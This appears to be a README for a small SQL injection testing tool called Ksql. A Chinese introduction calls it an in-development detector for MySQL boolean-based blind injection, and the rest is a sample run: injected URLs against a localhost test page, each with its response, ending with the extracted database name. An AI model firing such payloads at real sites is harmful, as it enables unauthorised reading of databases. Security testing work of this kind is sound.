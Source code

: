 # Ksql - Blind SQL Injection

------

自己想的一种方式写出来的SQL注入检测的小工具<br>

目前还在开发中，仅增加了Mysql基于布尔类型的盲注检测功能
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="j
    I was listening to Tue Feb 21 15:31:47 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="k
    I was listening to Tue Feb 21 15:31:47 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="l
    I was listening to Tue Feb 21 15:31:47 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="m
    I was listening to Tue Feb 21 15:31:48 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="n
    I was listening to Tue Feb 21 15:31:48 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="o
    I was listening to Tue Feb 21 15:31:48 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="p
    I was listening to Tue Feb 21 15:31:48 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="q
    I was listening to Tue Feb 21 15:31:49 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="r
    I was listening to Tue Feb 21 15:31:49 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="s
    I was listening to Tue Feb 21 15:31:49 2017
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="t
    ================t
    database:  test
    
